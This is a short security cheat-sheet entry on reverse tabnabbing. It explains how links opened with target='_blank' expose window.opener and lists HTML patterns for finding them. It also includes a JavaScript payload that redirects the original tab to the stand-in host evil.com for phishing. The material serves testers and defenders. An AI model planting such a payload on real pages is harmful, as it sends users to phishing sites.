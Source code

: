 # Tabnabbing
## Introduction
When you open a link in a new tab ( target="_blank" ), the page that opens in a new tab can access the initial tab and change it's location using the window.opener property.

## How to Find
```html
<a href="..." target="_blank" rel="" />  

<a href="..." target="_blank" />
```

## How to Exploit
1. Attacker posts a link to a website under his control that contains the following JS code:
    ```html
    <html>
    <script>
    if (window.opener) window.opener.parent.location.replace('http://evil.com');
    if (window.parent != window) window.parent.location.replace('http://evil.com');
    </script>
    </html>
    ```
2. He tricks the victim into visiting the link, which is opened in the browser in a new tab.
3. At the same time the JS code is executed and the background tab is redirected to the website evil.com, which is most likely a phishing website.
